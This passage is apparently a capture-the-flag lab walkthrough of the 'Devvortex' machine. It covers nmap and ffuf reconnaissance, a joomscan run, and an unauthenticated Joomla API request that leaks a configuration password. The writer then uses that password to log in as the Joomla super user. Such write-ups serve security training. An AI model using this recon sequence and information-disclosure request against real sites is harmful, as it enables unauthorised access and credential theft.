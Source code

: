 ##### nmap

All port scan
```bash
sudo nmap -sV -p- -v  -oA nmap2
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Service scan
```bash
sudo nmap -sC -sV 10.10.11.242 -p 22,80 -v -oA nmap
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Performed subdomain enumeration
```bash
ffuf -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all -fs 154
```
![[Pasted image 20240905184955.png]]
##### manual
- added devvortex.htb to `/etc/hosts`
- added dev.devvortex.htb to `/etc/hosts`
- ![[Pasted image 20240905185557.png]]
- we are dealing with Joomla CMS
- ![[Pasted image 20240905190520.png]]
- Found this and we do have an /api endpoint in our Joomla installation.
- Ran `joomscan`
```bash
joomscan -u http://dev.devvortex.htb
```
![[Pasted image 20240905190635.png]]
- ![[Pasted image 20240905190739.png]]
- ![[Pasted image 20240905190747.png]]
- Found 2 users - lewis and logan. lewis is part of super users
- /api/index.php/v1/config/application?public=true
![[Pasted image 20240905192453.png]]
Found a password `P4ntherg0t1n5r3c0n##`
- Successfully logged into the Joomla Admin portal using `lewis:P4ntherg0t1n5r3c0n##`

